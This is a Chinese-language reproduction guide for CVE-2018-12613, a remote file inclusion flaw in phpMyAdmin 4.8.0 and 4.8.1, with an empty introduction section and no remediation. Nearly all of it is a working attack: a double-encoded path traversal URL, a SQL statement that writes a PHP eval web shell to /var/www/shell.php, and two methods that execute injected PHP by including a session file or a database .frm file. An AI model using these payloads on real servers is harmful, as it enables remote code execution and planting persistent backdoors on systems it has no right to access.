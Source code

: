 （CVE-2018-12613）Phpmyadmin 远程文件包含漏洞
=============================================

一、漏洞简介
------------

二、漏洞影响
------------

phpMyAdmin 4.8.0和4.8.1受到影响。

三、复现过程
------------

首先需要登录phpmyadmin

### payload

    http://0-sec.org/index.php?target=db_sql.php%253f/../../../../../../phpStudy/使用说明.txt

![](./resource/(CVE-2018-12613)Phpmyadmin远程文件包含漏洞/media/rId25.png)

### 写入shell

#### 第一种姿势

##### 1、写入shell，测试语句：

    SELECT '<?php phpinfo()?>'

![](./resource/(CVE-2018-12613)Phpmyadmin远程文件包含漏洞/media/rId29.png)

##### 2、查看自己的sessionid（cookie中phpMyAdmin的值）。(或者Bp抓包获取本地的cookie值也可以)

![](./resource/(CVE-2018-12613)Phpmyadmin远程文件包含漏洞/media/rId31.png)

##### 补充代码

如果上述方法不行的话，则用以下代码

    select '<?php @eval($_POST[abc]);?>' into outfile '/var/www/shell.php'

##### 3、访问：

    http://0-sec.org/index.php?target=db_sql.php%253f/../../../../../../../../phpStudy/tmp/tmp/sess_20f18hqcr2mc0nmq96vp920r6phc06v3

#### 第二种姿势

##### 1、在数据表里面添加一句话(这里一点要用get！)

![](./resource/(CVE-2018-12613)Phpmyadmin远程文件包含漏洞/media/rId36.png)

##### 2、此时会在phpStudyMySQLdata 对应数据库下生成一个frm文件（不同版本路径可能不一样）

![](./resource/(CVE-2018-12613)Phpmyadmin远程文件包含漏洞/media/rId38.png)

##### 3、访问

    http://0-sec.org/index.php?9ouu=phpinfo();&target=db_sql.php%253f/../../../../../../phpStudy/MySQL/data/9ouu/test.frm

image
